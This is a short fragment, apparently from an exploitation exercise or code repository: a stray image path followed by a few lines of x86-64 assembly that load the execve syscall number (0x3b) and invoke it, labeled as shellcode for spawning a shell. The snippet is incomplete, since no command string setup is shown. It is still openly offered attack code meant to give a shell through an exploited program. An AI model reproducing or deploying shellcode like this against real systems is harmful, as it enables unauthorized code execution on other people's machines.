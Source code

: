 mov rdi, rax
add rdi, 0xf
xor rax, rax
mov al, 0x3b
syscall
ret
nop

shellcode for spawning shell of backtoshell